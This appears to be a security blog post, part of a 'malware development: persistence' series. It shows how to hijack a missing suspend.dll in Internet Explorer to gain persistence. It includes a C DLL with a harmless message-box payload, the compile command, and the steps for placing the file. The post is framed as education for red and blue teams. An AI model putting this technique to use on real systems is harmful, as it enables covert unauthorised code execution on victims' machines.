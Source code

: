 ```yaml
---
title:  "Malware development: persistence - part 15. Internet Explorer. Simple C++ example."
date:   2022-10-12 03:00:00 +0300
header:
  teaser: "/assets/images/75/2022-10-13_00-24_1.png"
categories:
  - malware
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/75/2022-10-13_00-24_1.png){:class="img-responsive"}    

This post is the result of my own research into one of the interesting malware persistence trick: via Internet Explorer.     

### internet explorer

In one of my [previous posts](/pentest/2021/10/12/dll-hijacking-2.html) I wrote about real world example of DLL hijacking. In this time the victim is Internet Explorer. Surely many of you do not even use it and are unlikely to deleted it on purpose from Windows system.    

### practical example

As in my previous post, let’s go to run [procmon](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) from sysinternals, and setting the following filters:    

![pers](/assets/images/75/2022-10-13_00-03.png){:class="img-responsive"}    

Then run `Internet Explorer`:     

![pers](/assets/images/75/2022-10-13_00-04.png){:class="img-responsive"}    

![pers](/assets/images/75/2022-10-13_00-04_1.png){:class="img-responsive"}    

As you can see, the process `iexplore.exe` is missing several DLLs which possibly can be used for DLL hijacking. For example `suspend.dll`:     

![pers](/assets/images/75/2022-10-13_00-05.png){:class="img-responsive"}    

Let's go to search any other probably locations, maybe we have legit DLL:    

```powershell
cd C:\
dir /b /s suspend.dll
```

![pers](/assets/images/75/2022-10-13_00-09.png){:class="img-responsive"}    

But as you can see, file not found so, this DLL is used by Internet Explorer only.    

Then, I prepared "evil" DLL, `meow-woof` messagebox:        

```cpp
/*
evil.c - malicious DLL
DLL hijacking. Internet Explorer
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
      MessageBox(
        NULL,
        "Meow-woof!",
        "=^..^=",
        MB_OK
      );
      break;
    case DLL_PROCESS_DETACH:
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    }
    return TRUE;
}
```

### demo

Let's go to see everything in action. Compiling our evil DLL:    

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.c
```

![pers](/assets/images/75/2022-10-13_00-12.png){:class="img-responsive"}    

Then naming the file `suspend.dll` and placing it in the directory where Internet Explorer is loaded:     

![pers](/assets/images/75/2022-10-13_06-13.png){:class="img-responsive"}    

![pers](/assets/images/75/2022-10-13_00-15.png){:class="img-responsive"}    

And finally try to run our victim application:     

![pers](/assets/images/75/2022-10-13_00-16_1.png){:class="img-responsive"}    

![pers](/assets/images/75/2022-10-13_00-18.png){:class="img-responsive"}    

![pers](/assets/images/75/2022-10-13_00-24.png){:class="img-responsive"}    

After we close pop-up IE work correctly, not crashed:    

![pers](/assets/images/75/2022-10-13_00-16.png){:class="img-responsive"}    

As you can see, it's worked. Perfect! =^..^=     

### conclusion

We now have achieved persistence via IE.    

That's why this post belongs to the persistence category, our malicious DLL will launch anytime user starts IE too. And, when they exit it too. Surprise for my windows lovers. You don't even have to install or remove anything.    

It's worked also on `Windows 11 x64`:     

![pers](/assets/images/75/2022-10-13_06-37.png){:class="img-responsive"}    

Although it’s unlikely that anyone will launch IE in 2022, will you agree?    

As a Windows bug hunter, if you want to find privilege escalation vulnerabilities on the operating system itself, you’ll often want to start from a blank page, with a clean installation of Windows.      

I don't know if any APT in the wild used this tactic and trick, but, I hope this post spreads awareness to the blue teamers of this interesting technique especially when create software, and adds a weapon to the red teamers arsenal.    

> This is a practical case for educational purposes only.      

[DLL hijacking](/pentest/2021/09/24/dll-hijacking-1.html)     
[DLL hijacking with exported functions](/pentest/2021/10/12/dll-hijacking-2.html)     
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-10-12-malware-pers-15)     

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
